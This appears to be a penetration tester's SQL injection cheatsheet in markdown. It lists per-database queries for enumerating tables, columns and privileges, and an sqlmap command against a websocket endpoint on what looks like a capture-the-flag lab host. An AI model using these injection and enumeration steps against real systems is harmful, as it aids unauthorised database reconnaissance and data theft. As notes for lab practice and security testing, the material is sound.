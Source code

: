```yaml
---
title: SQL Injection
description: SQL Injection cheatsheet
---
```


# SQL Injection

## Extract table and column names

### Oracle

```sql
SELECT LISTAGG(table_name, ',') FROM all_tables

SELECT LISTAGG(column_name, ',') FROM all_tab_columns
WHERE table_name = 'TABLE-NAME-HERE'
```

### Microsoft

```sql
SELECT STRING_AGG(table_name, CHAR(44)) FROM information_schema.tables

SELECT STRING_AGG(column_name, CHAR(44)) FROM information_schema.columns
WHERE table_name = 'TABLE-NAME-HERE'
```

### PostgreSQL

```sql
SELECT STRING_AGG(table_name, ',') FROM information_schema.tables

SELECT STRING_AGG(column_name, ',') FROM information_schema.columns
WHERE table_name = 'TABLE-NAME-HERE'
```

### MySQL

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables

SELECT GROUP_CONCAT(column_name) FROM information_schema.columns
WHERE table_name = 'TABLE-NAME-HERE'`
```


> References [portswigger.net - cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

## Privileges

### MySQL

```sql
SHOW GRANTS;
```

## Others

### MySQL

Use `--vertical` to enable the vertical format or ending query with `\G`, example : `SELECT * FROM users \G`.

```sql
> SELECT * FROM city WHERE countrycode='AUT';
*************************** 1. row ***************************
	ID: 1523
	Name: Wien
	CountryCode: AUT
	District: Wien
	Info: {"Population": 1608144}
```

> Source [dev.mysql.com](https://dev.mysql.com/doc/mysql-shell/8.0/en/mysql-shell-output-vertical.html).

### SQL Injection in Websockets

Example of command using SQLmap :

```
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data='{"id":"57636*"}'
```

Another way would be to use an HTTP server as proxy: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
